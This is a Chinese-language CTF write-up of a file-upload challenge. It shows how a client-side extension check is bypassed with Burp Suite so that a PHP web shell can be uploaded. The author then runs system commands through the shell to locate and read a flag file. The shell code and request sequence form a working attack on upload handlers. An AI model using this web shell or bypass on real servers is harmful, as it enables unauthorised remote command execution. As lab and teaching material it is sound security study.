 # upload1

本题是 `upload file` 的漏洞. 先观察 `source code`:

```js
<script type="text/javascript">
 

Array.prototype.contains = function (obj) {  
    var i = this.length;  
    while (i--) {  
        if (this[i] === obj) {  
            return true;  
        }  
    }  
    return false;  
}  

function check(){
upfile = document.getElementById("upfile");
submit = document.getElementById("submit");
name = upfile.value;
ext = name.replace(/^.+\./,'');

if(['jpg','png'].contains(ext)){
	submit.disabled = false;
}else{
	submit.disabled = true;

	alert('请选择一张图片文件上传!');
}


}
```

需要注意 `function check()`. 它把文件上传名字里的 `*.` 删除, 然后检查剩余字段里, 如果有 `jpg` 或 `png` 就接受上传, 相反就拒绝.

在网上找到一个简单的 `php shell` 脚本:

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```

使用 `Burp Suite` 改名文件和上传绕过 `check()`:

```
Content-Disposition: form-data; name="upfile"; filename="test.php"
Content-Type: image/jpeg

<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```

上传后我们可以 `RCE` 在 `/upload/` 中:

```
/upload/1643530437.test.php?cmd={命令}
```

找找 `flag`:

```
/upload/1643530437.test.php?cmd=find+/+-name+flag
```

没有数据返回, 奇怪, 那找一找文件名:

```
/upload/1643530437.test.php?cmd=find+/+-name+flag.*
```

返回 `/var/www/html/flag.php`. :))))) 最后, 读 `flag` 啦:

```
/upload/1643530437.test.php?cmd=cat+/var/www/html/flag.ph
```

一个小小的注意, 在 `URL` 中需要查看 `CTRL+U` 才会显示!
